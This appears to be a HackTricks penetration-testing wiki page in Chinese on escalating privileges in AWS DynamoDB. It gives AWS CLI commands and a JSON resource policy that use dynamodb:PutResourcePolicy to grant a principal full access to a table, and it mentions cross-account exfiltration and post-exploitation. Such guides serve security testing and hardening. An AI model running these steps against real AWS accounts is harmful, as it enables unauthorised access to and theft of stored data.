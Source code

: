# AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

有关dynamodb的更多信息，请查看：

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`，可选的 `dynamodb:GetResourcePolicy`

自2024年3月起，AWS为DynamoDB提供*基于资源的策略*（[AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)）。

因此，如果您对一个表具有`dynamodb:PutResourcePolicy`，您可以轻松地授予自己或任何其他主体对该表的完全访问权限。

将`dynamodb:PutResourcePolicy`授予随机主体通常是意外发生的，如果管理员认为授予`dynamodb:Put*`只会允许主体将项目放入数据库中——或者如果他们在2024年3月之前授予了该权限集...

理想情况下，您还应该拥有`dynamodb:GetResourcePolicy`，这样您就不会覆盖其他潜在的重要权限，而只是注入您所需的附加权限：
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
如果您无法检索当前策略，请使用此策略，该策略授予您的主体对表的完全访问权限：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
如果您需要自定义，这里是所有可能的DynamoDB操作的列表：[AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)。这里是可以通过基于资源的策略允许的所有操作的列表 *以及这些操作中哪些可以跨账户使用（考虑数据外泄！）*：[AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

现在，准备好策略文档 `policy.json`，放置资源策略：
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
现在，您应该拥有所需的权限。

### 后期利用

据我所知，**仅通过拥有一些 AWS `dynamodb` 权限，没有其他直接的方法可以提升 AWS 中的权限**。您可以**从表中读取敏感**信息（可能包含 AWS 凭证）并**在表中写入信息**（这可能触发其他漏洞，例如 lambda 代码注入……），但所有这些选项已经在**DynamoDB 后期利用页面**中考虑过：

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: 通过数据流读取数据

{{#include ../../../banners/hacktricks-training.md}}
